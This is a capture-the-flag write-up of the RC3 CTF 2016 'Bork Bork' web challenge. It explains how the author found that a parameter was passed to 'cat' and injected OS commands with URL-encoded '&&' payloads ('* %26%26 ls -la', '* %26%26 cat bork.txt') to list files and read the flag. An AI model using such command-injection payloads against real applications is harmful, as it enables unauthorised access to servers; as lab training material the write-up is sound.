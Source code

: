 ```yaml
---
layout: page
title: "RC3 CTF 2016 Writeup: Bork Bork"
---
```


> 300 points
> 
> We all love doggos and puppers. Have some more of one of our favorite puppers, Gabe. Bork.
> 
> https://ctf.rc3.club:3100/
> 
> author:orkulus

This challenge was offline for quite a long time, but eventually they fixed it well enough so that it could be analyzed.

The drop down list on the front page shows a list of video clips of a dog barking to various tunes. Closer examination showed that a ```bork``` parameter contains a name of a text file.

When we ssend a POST request with an empty ```bork``` parameter we get the following error in the response:

```
<iframe width="854" height="480" src="cat: borks/: Is a directory?autoplay=1&loop=1" frameborder="0"></iframe>
```

This means that they are essentially ```cat```'ting the file that is sent in as a parameter. Maybe we can use OS command injection here.

Specifying ```..```, ```/```, ```;```, ```$()``` and others as parameter value caused an error, there must be logic in the application that sanitizes the input. However URL-encoding ```&&``` worked, parameter value ```* %26%26 ls -la``` got us the following list:

```
-rw-r--r-- 1 root root   77 Nov 20 06:24 auto_bork.sh
-rw-r--r-- 2 root root  153 Nov 19 17:22 bork.ini
-rw-r--r-- 1 root root 1450 Nov 20 06:32 bork.py
-rw-r--r-- 2 root root 1347 Nov 19 17:22 bork.pyc
-rw-r----- 2 root root    0 Nov 19 17:22 bork.sock
-rw-r--r-- 2 root root   18 Nov 19 17:22 bork.txt
drwxr-xr-x 2 root root 4096 Nov 19 18:03 borks
drwxr-xr-x 2 root root 4096 Nov 19 18:03 static
drwxr-xr-x 2 root root 4096 Nov 19 18:03 templates
-rw-r--r-- 2 root root   86 Nov 19 17:22 wsgi.py
```

We examined all of these files and eventually got the flag ```RC3-2016-L057d0g3``` by specifying parameter value ```* %26%26 cat bork.txt```. 
